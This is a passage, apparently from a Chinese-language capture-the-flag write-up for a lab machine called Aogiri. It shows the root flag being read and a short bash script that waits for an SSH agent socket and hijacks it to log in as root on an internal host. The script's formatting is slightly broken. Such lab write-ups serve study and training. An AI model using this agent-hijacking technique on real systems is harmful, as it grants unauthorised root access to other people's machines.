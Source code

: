 现在可以读取 root.txt..😅

```
root@Aogiri:~# cat root.txt
7c0f11041f....
```

![](img/83510f8575f392c6b4c2a62867a8be85.png)

您也可以通过这个简单的脚本编写脚本并自动执行劫持来实现这一点:

```
#!/bin/bashwhile true; do agent=$(find . -name agent.*)
        if [[$agent != '']]; then
        echo "$agent"
        break
        fi
done
SSH_AUTH_SOCK=$agent ssh root@172.18.0.1 -p 2222
```

注意这样会触发很多进程，而且会很吵！
